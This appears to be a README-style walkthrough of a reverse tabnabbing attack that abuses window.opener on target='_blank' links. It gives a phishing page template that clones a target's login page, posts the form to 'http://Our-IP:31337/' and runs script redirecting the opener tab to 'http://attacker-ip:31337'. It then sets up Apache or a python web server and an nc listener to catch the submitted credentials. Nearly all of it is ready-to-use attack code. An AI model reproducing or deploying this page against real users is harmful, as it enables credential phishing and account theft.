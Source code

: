 - - -
People using **target=’_blank’** links usually have no idea about this curious fact:
The page we’re linking to gains partial access to the source page via the **window.opener** object.
The newly opened tab can then change the window.opener.location to some phishing page.
- - -

![Imgur](https://i.imgur.com/c3vMTw2h.png)

- - -
## Exploitation Steps : 

```sh
cd /var/www/html
```

```sh
touch offsec.html
```

Now create a html file but.....
				🌱️ Replace the `<body>` and `<head>` of the from the target web.
				🌱️ Modify the <action="<http://Our-IP:31337/".
				🌱️ Modify script's attacker-IP to your IP.

```sh
nano offsec.html
```

```html
<html>  
<head> 

<!-- paste the target login page head------------- -->

</head>  
<body>  
  
  <!--
 paste the target login page body , just try to  mimic the target login page!!}}}}
-->

<!--
{{{{#NOTE : You should change <action='http://Our-IP:31337/' > for better results }}}}
-->

<script>  
				if(window.opener) window.opener.parent.location.replace('http://attacker-ip:31337')  
				if(window.opener != window) window.opener.parent.location.replace('http://attacker-ip:31337')  
</script>  
  
  
</body>  
</html>
```

**Now On a new terminal** : 
```sh
service apache2 start
```

```sh
tail -f -n 10 /var/log/apache2/access.log
```
##### Or 
```sh
python3 -m http.server 80
```


**Then, On a new terminal again** : 
```sh
nc -nlvp 31337
```

- **now move to Browser** **:**
- **And provoke the target web** :

![Imgur](https://i.imgur.com/uBTDYtIh.png)

And Now The pentesters with their FEET-UP!! 🦶🦶🦶